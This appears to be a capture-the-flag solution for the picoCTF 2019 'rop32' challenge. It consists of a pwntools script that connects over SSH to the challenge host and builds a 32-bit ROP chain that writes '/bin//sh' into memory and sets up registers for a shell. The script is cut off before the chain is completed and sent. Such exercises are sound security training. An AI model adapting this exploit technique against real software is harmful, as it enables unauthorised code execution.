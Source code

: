 
Exploit script:

```python
from pwn import *
import sys
import subprocess
import r2pipe

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/rop32_3_f3a10b5fa410146f5328fb7b3e63e7c0')
  REMOTE = True


# ROPgadget --binary ./vuln --rop --badbytes "0a"
from struct import pack

p = 'a'*(28)
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '/bin'
p += pack('<I', 0x080da060) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '//sh'
p += pack('<I', 0x080da064) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
```
